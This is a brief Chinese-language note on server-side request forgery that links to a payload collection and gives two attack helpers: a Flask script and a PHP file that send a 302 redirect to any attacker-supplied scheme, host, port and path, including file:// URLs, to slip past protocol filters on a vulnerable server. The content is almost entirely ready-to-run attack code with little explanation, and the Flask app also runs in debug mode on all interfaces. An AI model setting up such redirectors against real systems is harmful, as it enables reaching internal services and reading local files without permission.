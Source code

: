 









[总结](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Request Forgery)

## 重定向绕过协议限制

python脚本

```python
from flask import Flask, request, redirect

app = Flask(__name__)

@app.route('/')
def redirect_request():
    # 从请求参数中获取 ip, port, scheme, data，如果缺失则置为空字符串
    ip = request.args.get('ip', '')
    port = request.args.get('port', '')
    scheme = request.args.get('s', '')
    data = request.args.get('data', '')

    # 构造重定向的 URL
    if scheme == 'file':
        redirect_url = f"{scheme}://{data}"
    else:
        redirect_url = f"{scheme}://{ip}:{port}/{data}"

    print(redirect_url)
    # 返回重定向响应
    return redirect(redirect_url)

if __name__ == '__main__':
    # 启动 Flask 应用，绑定到 0.0.0.0 和端口 8888
    app.run(host='0.0.0.0', port=8888, debug=True)

```

302.php

```php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
```

